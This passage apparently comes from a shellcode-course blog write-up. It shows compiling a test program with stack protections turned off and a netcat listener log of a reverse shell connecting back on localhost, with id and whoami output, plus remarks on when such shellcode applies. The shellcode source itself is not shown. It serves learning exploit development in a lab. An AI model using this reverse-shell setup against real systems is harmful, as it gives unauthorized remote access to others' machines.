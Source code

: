 To compile it:

```bash
gcc -w -fno-stack-protector -z execstack file.c
```

It worked as expected, spawning a reverse shell in the other window, where I set up the netcat listener:

```bash
rbct@slae:~$ nc -nvl 4444
# fjHh
# Connection from 127.0.0.1 port 4444 [tcp/*] accepted
id
# uid=1000(rbct) gid=1000(rbct) groups=1000(rbct),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),111(lpadmin),112(sambashare)
whoami
# rbct
exit
rbct@slae:~$ 
```

This type of shellcode would be used in cases where you've already set up a connection to a TCP socket, and you have control over it, so you're able to send the data desired, and most importantly the first 4 bytes specified in the shellcode.
